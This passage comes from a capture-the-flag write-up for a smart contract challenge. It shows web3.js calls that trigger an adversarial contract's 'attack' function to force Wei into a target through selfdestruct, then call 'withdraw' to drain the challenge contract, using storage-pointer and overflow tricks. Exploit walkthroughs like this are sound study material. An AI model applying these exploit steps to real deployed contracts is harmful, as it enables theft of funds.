 Deploy it with 2 Wei and call the `attack` function to force a 2 Wei increase of balance on the target contract : 

```js
const adversarialContract = "0x6E7D4A24Aa0AFE07c60500eb4241348196Fa9800";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

We can finally call withdraw as the `head` and balance are coherent with the `queue` now. Just make sure to call `withdraw` with an index of 2 so that we process contribution 0, 1 and 2 as we must bring the challenge contract's balance to 0 in order to solve the challenge.

```js
const challengeContract = "0x058de915E68b8beef52dC9463fef1cD97a51717b";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "withdraw",
    type: "function",
    inputs: [{ type: "uint256", name: "index" }],
  },
  [2] // withdraw from index 2 : will process donations 0 (1 ETH), 1 (2 Wei) and 2 (3 Wei)
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

And submit the challenge ! This one was really fun as we used uninitialized storage pointers, overflows and selfdestruct relying on the challenges that we solved previously.
